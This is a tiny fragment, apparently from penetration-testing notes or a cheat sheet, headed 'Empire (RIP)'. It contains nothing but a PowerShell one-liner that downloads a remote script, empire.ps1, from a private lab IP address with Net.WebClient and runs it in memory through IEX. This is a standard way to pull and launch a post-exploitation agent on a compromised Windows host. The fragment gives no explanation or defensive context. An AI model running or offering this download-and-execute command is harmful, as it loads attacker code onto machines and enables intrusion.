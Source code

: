 # Empire \(RIP\)

powershell "IEX\(New-Object Net.WebClient\).downloadString\('[http://10.10.14.4/empire.ps1](http://10.10.14.4/empire.ps1)'\)"

